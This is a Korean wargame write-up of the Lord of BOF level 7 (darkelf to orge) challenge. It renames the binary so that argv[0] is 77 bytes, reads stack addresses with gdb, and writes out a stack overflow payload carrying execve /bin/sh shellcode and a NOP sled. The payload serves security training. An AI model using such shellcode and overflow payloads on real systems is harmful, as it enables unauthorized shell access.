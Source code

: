 ```yaml
---
title:  "[LOB] level 7: darkelf >> orge "

categories: lob
tags: [lob]

toc: true
toc_sticky: true

date: 2021-12-22 13:46:34

---
```

\xff 를 \x00으로 인식하는 오류를 피해 bash2를 사용합니다

# level 7

**darkelf / kernel crashed**

orge.c 코드 읽기  
![image](https://user-images.githubusercontent.com/69203345/147099444-17370eef-7d61-4a99-b073-74e00cbda363.png)

argv[0]의 길이가 77바이트 여야만 한다
예를들어 argv[0]은 ./abc DD EE 에서 ./abc 이다 argv[1]은 DD argv[2]는 EE 이다  
그렇다면 파일의 이름이 77바이트 여야한다는건데  
./을 제외하고 orge를 75바이트로 만들면 되겠다

rename을 사용해서 이름을 바꿔준다  
형식. rename 변경전파일명 변경후파일명 대상파일  
![image](https://user-images.githubusercontent.com/69203345/147101067-40ee1eca-2581-41fd-a3cc-e3e76b2087a1.png)  

이전 레벨과 사용법 같음
argv[1] = 'print "\x90"*44+RET'  
argv[2] = 'python -c 'print "\x90"*20+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

>./\`python -c 'print "A"\*75+" "+"B"\*44+"\xff\xff\xff\xbf"+" "+"\x90"*20+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

![image](https://user-images.githubusercontent.com/69203345/147101369-7dabc847-7faf-4926-8444-2c4c4f292382.png)  
gdb로 코어파일 확인  
![image](https://user-images.githubusercontent.com/69203345/147101610-af783570-cdbc-48c1-b0d7-d9f8628c288e.png)

0xbffffb30 부터 argv[0]  
0xbffffb70 부터 argv[1]  
0xbffffbc0 부분이 argv[2]  

0xbffffbc0 부분을 리턴주소로 사용해서 페이로드 작성

>./\`python -c 'print "A"\*75+" "+"B"\*44+"\xb0\xfb\xff\xbf"+" "+"\x90"*20+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

![image](https://user-images.githubusercontent.com/69203345/147102329-ab0c0505-ed20-4e62-aa27-f1430da306b1.png)
